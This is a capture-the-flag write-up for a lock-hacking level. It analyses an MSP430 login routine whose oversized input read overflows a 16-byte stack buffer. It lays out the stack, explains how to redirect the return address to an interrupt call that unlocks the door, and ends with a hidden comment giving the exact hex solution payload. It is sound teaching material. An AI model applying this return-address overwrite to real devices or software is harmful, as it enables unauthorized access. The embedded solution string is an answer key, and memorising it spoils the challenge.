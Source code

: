 # Whitehorse
> partial source code is [here](./dump.asm)  
> **Vulnerability**: stack buffer overflow  
> similar to [Cusco](../Cusco/readme.md)

## Analysis
Focus on the function `<login>`
```asm
44f4 <login>
44f4:  3150 f0ff      add	#0xfff0, sp         ; sp = sp - 0x10
44f8:  3f40 7044      mov	#0x4470 "Enter the password to continue.", r15
44fc:  b012 9645      call	#0x4596 <puts>
4500:  3f40 9044      mov	#0x4490 "Remember: passwords are between 8 and 16 characters.", r15
4504:  b012 9645      call	#0x4596 <puts>
4508:  3e40 3000      mov	#0x30, r14
450c:  0f41           mov	sp, r15
450e:  b012 8645      call	#0x4586 <getsn>     ; gets(sp, 0x30)
4512:  0f41           mov	sp, r15
4514:  b012 4644      call	#0x4446 <conditional_unlock_door>
4518:  0f93           tst	r15
451a:  0324           jz	$+0x8 <login+0x2e>
451c:  3f40 c544      mov	#0x44c5 "Access granted.", r15
4520:  023c           jmp	$+0x6 <login+0x32>
4522:  3f40 d544      mov	#0x44d5 "That password is not correct.", r15
4526:  b012 9645      call	#0x4596 <puts>
452a:  3150 1000      add	#0x10, sp
452e:  3041           ret
```

At `0x4514`, it calls `<conditional_unlock_door>` and inside the function, it use the interrupt `0x7e` and user input as the first argument. `INT 0x7e`, unlike `INT 0x7f` which **unconditionally** unlocks the door, it unlocks the door only when the first argument matches the password. Therefore, we need to find the password(?).

### Vulnerability
From `44f4:  3150 f0ff      add	#0xfff0, sp`, we know that the stack size is `0x10` bytes and at `450e`, it calls `gets(sp, 0x30)` which gets **maximum 0x30 bytes** of input on the stack.

Therefore, there is a **stack buffer overflow** and `input[0x10]` will hold the return address of the function `<login>`.

Originally, in the problem [`Cusoc`](../Cusco/readme.md), we can just overwrite the return address with the address of `<unlock_door>` function. However, in this problem, we don't have a existed code segment that will call `INT 0x7f`.

**But**, we know that the value to decide what the interrupt is going to do is by the value register `sp` pointing to. Therefore, we need to put `0x7f` on to the stack.

#### Stack Layout
|             |   `gets(sp, 0x30)`   |       `0x452e`       |
| :---------: | :------------------: | :------------------: |
|    `sp`     |      (padding)       | **(return address)** |
| `sp + 0x2`  |      (padding)       |        `0x7f`        |
| `sp + 0x4`  |      (padding)       |      (garbage)       |
| `sp + 0x6`  |      (padding)       |      (garbage)       |
| `sp + 0x8`  |      (padding)       |      (garbage)       |
| `sp + 0xa`  |      (padding)       |      (garbage)       |
| `sp + 0xc`  |      (padding)       |      (garbage)       |
| `sp + 0xe`  |      (padding)       |      (garbage)       |
| `sp + 0x10` | **(return address)** |      (garbage)       |
| `sp + 0x12` |        `0x7f`        |      (garbage)       |
| `sp + 0x14` |      (garbage)       |      (garbage)       |

> The `sp @ 452e` should be `input[0x10]` because the stack size is `0x10` bytes (also, the previous instruction, `add #0x10, sp`).

The return address can be overwritten with any address that `call <INT>`.

## Exploit
0x10 bytes of padding + 0x2 bytes of address that `call <INT>`, `0x4460` in little endian + 0x2 bytes of `0x7f`

<!-- solution: {'level_id': 7, 'input': '4141414141414141414141414141414160447f;'} -->
